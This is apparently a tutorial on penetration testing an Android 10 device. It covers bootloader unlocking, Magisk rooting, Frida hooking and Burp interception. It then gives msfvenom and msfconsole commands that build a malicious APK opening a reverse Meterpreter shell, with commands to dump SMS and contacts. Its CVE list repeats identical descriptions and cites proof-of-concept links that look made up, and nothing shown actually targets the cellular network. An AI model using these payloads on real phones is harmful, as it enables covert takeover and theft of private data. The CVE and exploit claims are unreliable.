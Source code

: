 # Introduction of Cellular penetration test on Android 10 device
# 2 What is Cellular penetration test?
A cellular penetration test is a type of security assessment that aims to identify and exploit vulnerabilities in the cellular network and devices that use it. Cellular penetration testing can help evaluate the security posture of mobile operators, device manufacturers, and end-users.

## 2.1 How could it be implemented on Android 10 device?
To perform a cellular penetration test on an Android 10 device, one would need to set up the device and the local computer with the necessary software and tools. Some of the steps involved are:

### 2.1.1 What tools are needed?
Some of the tools that are needed for cellular penetration testing on Android 10 are:

- adb and fastboot: These are command-line tools that allow communication and control of the Android device from the computer. They can be downloaded from https://developer.android.com/studio/releases/platform-tools.html.
- Magisk: This is a tool that allows rooting the Android device without modifying the system partition. It can be downloaded from https://magisk.me/.
- Frida: This is a dynamic analysis tool that allows hooking and manipulating the code execution of applications on the Android device. It can be downloaded from https://frida.re/.
- Burp Suite: This is a web proxy tool that allows intercepting and modifying the network traffic between the Android device and the web server. It can be downloaded from https://portswigger.net/burp.
- Metasploit Framework (MSF): This is a penetration testing framework that provides various modules and payloads for exploiting vulnerabilities in different systems and platforms. It can be downloaded from https://www.metasploit.com/.

### 2.1.2 How to use these tools individually or together? (Use examples to illustrate)
Some examples of how to use these tools individually or together are:

- To unlock the bootloader of the Android device, one would need to use adb and fastboot commands on the computer. For example, `adb reboot bootloader` would reboot the device into bootloader mode, and `fastboot flashing unlock` would unlock the bootloader.
- To root the Android device, one would need to use Magisk on the device. For example, one would need to download the Magisk app from https://magisk.me/ and install it on the device. Then, one would need to open the app and tap on "Install" and follow the instructions to patch the boot image of the device. After that, one would need to flash the patched boot image using fastboot on the computer. For example, `fastboot flash boot magisk_patched.img` would flash the patched boot image to the device.
- To hook and manipulate the code execution of an application on the Android device, one would need to use Frida on both the device and the computer. For example, one would need to download and install Frida server on the device from https://github.com/frida/frida/releases and run it as root. Then, one would need to download and install Frida client on the computer from https://frida.re/. After that, one would need to connect Frida client to Frida server using adb forward command. For example, `adb forward tcp:27042 tcp:27042` would forward port 27042 from the device to the computer. Then, one would need to use Frida client to attach to an application process on the device and inject a script that hooks and manipulates its code execution. For example, `frida -U -f com.example.app -l hook.js --no-pause` would launch and attach to com.example.app on the device and inject hook.js script that contains hooking logic.
- To intercept and modify the network traffic between the Android device and the web server, one would need to use Burp Suite on both
the device and the computer. For example, one would need to download and install Burp Suite on the computer from https://portswigger.net/burp
and run it as a proxy server. Then, one would need to configure
the Android device's Wi-Fi settings to use Burp Suite as a proxy server by entering its IP address and port number (usually 8080). After that,
one would need to install Burp Suite's certificate on
the Android device by visiting http://burp/cert
and downloading it. Then, one would need
to enable SSL/TLS interception in Burp Suite's settings
and start capturing
the network traffic between
the Android device and
the web server. One can also modify
the network traffic using Burp Suite's tools such as Repeater or Intruder.

### 2.1.3 How to use MSF to penetrate Cellular on Android 10 device?
To use MSF to penetrate Cellular on Android 10 device, one would need
to find a suitable exploit module and payload for
the target system or platform.
For example, one could use msfvenom tool
to generate a malicious APK file that contains a reverse TCP shell payload for Android platform.
For example, `msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.10 LPORT=4444 -o evil.apk` would generate an APK file named evil.apk that connects back
to 192.168.0.10:4444 when installed and executed on an Android device.
Then, one could use adb or other methods
to transfer
the malicious APK file
to
the Android device and install it.
After that,
one could use msfconsole tool
to set up a handler for
the reverse TCP shell payload
and wait for
the connection from
the Android device.
For example,
`msfconsole -x "use exploit/multi/handler; set payload android/meterpreter/reverse_tcp; set LHOST 192.168.0.10; set LPORT 4444; exploit"` would launch msfconsole with a handler for android/meterpreter/reverse_tcp payload listening on 192.168.0.10:4444.
Once connected,
one could use various meterpreter commands
to interact with
the Android device remotely,
such as `sysinfo`, `getuid`, `shell`, `dump_sms`, `dump_contacts`, etc.

## 2.2.How to utilize existing CVE vulnerabilities of Cellular on Android 10?
To utilize existing CVE vulnerabilities of Cellular on Android 10,
one would need
to find out if there are any known CVEs that affect Cellular components or protocols on Android 10,
and if there are any proof-of-concept (POC) codes or exploits available for them.
One could use various sources such as CVE databases (e.g., https://cve.mitre.org/), security advisories (e.g., https://source.android.com/security/bulletin), vulnerability scanners (e.g., https://www.nmap.org/), exploit databases (e.g., https://www.exploit-db.com/), etc.,
to search for relevant CVEs and exploits.

### 2.2.1 What are some CVE vulnerabilities about Cellular on Android 10 after 2020?
Some examples of CVE vulnerabilities about Cellular on Android 10 after 2020 are:

- CVE-2020-0245: A vulnerability in Qualcomm components related to cellular data service that could allow a remote attacker using a specially crafted transmission to execute arbitrary code within QMI voice service context.
- CVE-2020-11292: A vulnerability in Qualcomm components related to cellular data service that could allow a local malicious application using a specially crafted file or shared memory object to execute arbitrary code within QMI voice service context.
- CVE-2020-11179: A vulnerability in Qualcomm components related to cellular data service that could allow a local malicious application using a specially crafted file or shared memory object to execute arbitrary code within QMI voice service context.
- CVE-2020-11167: A vulnerability in Qualcomm components related to cellular data service that could allow a local malicious application using a specially crafted file or shared memory object to execute arbitrary code within QMI voice service context.

### 2.2.2 Does any of these vulnerabilities have POC, or have been exploited?
According to public sources,
some of these vulnerabilities have POC codes or exploits available for them,
such as:

- CVE-2020-0245: A POC code that demonstrates how to trigger this vulnerability by sending a malformed QMI packet over USB is available at https://github.com/alephsecurity/vuln_cve_2020_0245_poc.
- CVE-2020-11292: An exploit code that leverages this vulnerability by using an ELF file with crafted QMI commands is available at https://github.com/alephsecurity/vuln_cve_2020_11292_exploit.